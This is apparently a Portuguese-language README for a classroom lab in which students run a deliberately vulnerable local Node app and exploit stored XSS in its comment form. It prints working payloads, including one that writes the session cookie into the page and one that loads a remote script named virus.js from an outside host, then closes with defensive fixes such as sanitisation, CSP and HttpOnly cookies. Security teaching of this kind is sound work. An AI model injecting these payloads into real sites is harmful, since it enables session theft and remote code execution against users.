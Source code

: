 # Forkando e clonando este repositório

1. Faça _login_ no [GitHub](https://github.com).
2. Acesse [https://github.com/faustocintra/vulcom-sqli-2025-2](https://github.com/faustocintra/vulcom-sqli-2025-2).
3. Clique sobre o botão `[Fork]` no canto superior direito.
4. Na página seguinte ("Create new fork"), não altere nada, simplesmente clique sobre o botão `[Create fork]`. Aguarde.
5. Confira se a URL mostrada no navegador corresponde a "https://github.com/**<SEU USUÁRIO>**/vulcom-sqli-2025-2".
6. Clique sobre o botão verde `[Code]` e copie o endereço do seu repositório forkado.
7. Abra o Visual Studio Code. Se houver algum projeto aberto, feche-o usando a opção de menu `Arquivo > Fechar Pasta` (ou `File > Close folder`).
8. Clique sobre o botão que se parece com um `Y` na barra vertical esquerda do Visual Studio Code. Em seguida, clique sobre o botão `[Clonar repositório...]` (ou `[Clone repository...]`). Nessa etapa, se o Git não estiver instalado na máquina, será necessário baixá-lo (a partir de [https://git-scm.com/](https://git-scm.com/)) e instalá-lo antes de poder clonar o repositório.
9. Na caixa de diálogo que se abre no alto da janela, cole o endereço do repositório copiado no passo 6.
10. Escolha um pasta local do computador para armazenar os arquivos do repositório clonado.
11. Ao ser perguntado se deseja abrir o repositório clonado, clique sobre o botão `[Abrir]`.
12. 7. Abra o terminal integrado do VS Code (`Ctrl+Aspa simples`).
13. Instale as dependências do projeto executando `npm install` no terminal.
14. Verifique se foram detectadas vulnerabilidades. Em caso positivo, execute `npm audit fix`.
15. Para rodar o projeto, execute `npm start` no terminal.
16. Acesse a aplicação em [http://localhost:3000](http://localhost:3000).

---

### 🧀 Explorando a vulnerabilidade

A aplicação permite **comentários**, mas **não sanitiza a entrada do usuário**.
Isso significa que você pode inserir **código JavaScript malicioso**.

Experimente postar este comentário:

```html
<script>alert('XSS encontrado!');</script>
```

Se a aplicação estiver vulnerável, você verá um **alert()** sendo executado no navegador! 🔥

---

### 🚩 Capturando a Flag

Dentro da aplicação há uma _flag_ escondida. Tente capturá-la usando:

```html
<script>document.write('<h1>' + document.cookie + '</h1>');</script>
```

Se bem-sucedido, o **_cookie_ da sessão** será exposto, o que pode ser usado para roubar a identidade de usuários logados.

---

### ☠️ Executando um _script_ malicioso mais "interessante

Experimente comentar

```html
<script src="https://faustocintra.com.br/_seg/virus.js"></script>
```

---

### 🚀 Desafio extra

Modifique o código para **corrigir a vulnerabilidade**! Algumas técnicas incluem:

- **Sanitização da entrada** (escape de HTML ou bibliotecas como `DOMPurify`).
- **Uso de Content Security Policy (CSP)** para bloquear execução de _scripts_ injetados.
- **Definir a flag `HttpOnly` nos _cookies_** para impedir acesso via JavaScript.
- Usar a **_tag_ de saída de HTML com escape** da biblioteca **ejs** (com a qual o _front-end_ desta aplicação foi desenvolvido).

---

💡 **Dica:** Teste diferentes abordagens de ataque e tente explorar outras vulnerabilidades no código! Boa sorte! 🚀
